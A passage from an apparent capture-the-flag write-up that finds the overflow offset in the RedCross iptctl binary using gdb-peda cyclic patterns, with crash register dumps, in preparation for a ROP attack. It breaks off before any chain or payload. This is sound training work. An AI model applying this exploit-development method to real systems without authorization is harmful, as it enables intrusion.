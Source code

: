
NX enabled means I can’t just drop shellcode on the stack and jump to it. But
with no other protections, I can do a return oriented programming (ROP)
attack.

#### Find Offset

Because I run `gdb` with [peda](https://github.com/longld/peda), I have access
to `pattern_create`:

    
    
    gdb-peda$ pattern_create 50
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
    

Now I’ll start the program with the `-i` for interactive. When prompted for
action, I’ll enter “allow” and the pattern. I need the allow to pass the valid
action check. Then, I’ll enter a dummy IP for IP:

    
    
    gdb-peda$ run -i
    Starting program: /media/sf_CTFs/hackthebox/redcross-10.10.10.113/iptctl -i
    Entering interactive mode
    Action(allow|restrict|show): allowAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
    IP address: 1.1.1.1
    

On hitting enter, I’m taken to:

    
    
    Program received signal SIGSEGV, Segmentation fault.
    

The status looks like:

    
    
    [----------------------------------registers-----------------------------------]
    RAX: 0x7fffffffdf9a ("allowAAA%A1.1.1.1")
    RBX: 0x0
    RCX: 0x7ffff7e70031 (<__strcasecmp_l_sse2+2881>:        test   DWORD PTR [rdi+0x66000016],ecx)
    RDX: 0x11
    RSI: 0x7fffffffde26 ("allowAAA%A1.1.1.1")
    RDI: 0x7fffffffdf9a ("allowAAA%A1.1.1.1")
    RBP: 0x414441412841412d ('-AA(AADA')
    RSP: 0x7fffffffde48 ("A;AA)AAEAAaAA0AAFAAbA\n")   <--
    RIP: 0x400b5e (<interactive+271>:       ret)
    R8 : 0x7fffffffdd57 --> 0x0
    R9 : 0x1
    R10: 0xfffffffffffff482
    R11: 0x7ffff7f58a60 --> 0xfff20cc0fff20cb0
    R12: 0x4007b0 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe090 --> 0x2
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x400b57 <interactive+264>:  call   0x4006f0 <strcpy@plt>
       0x400b5c <interactive+269>:  nop
       0x400b5d <interactive+270>:  leave  
    => 0x400b5e <interactive+271>:  ret    
       0x400b5f <main>:     push   rbp
       0x400b60 <main+1>:   mov    rbp,rsp
       0x400b63 <main+4>:   sub    rsp,0x160
       0x400b6a <main+11>:  mov    DWORD PTR [rbp-0x154],edi
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffde48 ("A;AA)AAEAAaAA0AAFAAbA\n")   <--
    0008| 0x7fffffffde50 ("AAaAA0AAFAAbA\n")
    0016| 0x7fffffffde58 --> 0xa4162414146 ('FAAbA\n')
    0024| 0x7fffffffde60 --> 0x7fffffffdfd0 --> 0x200040000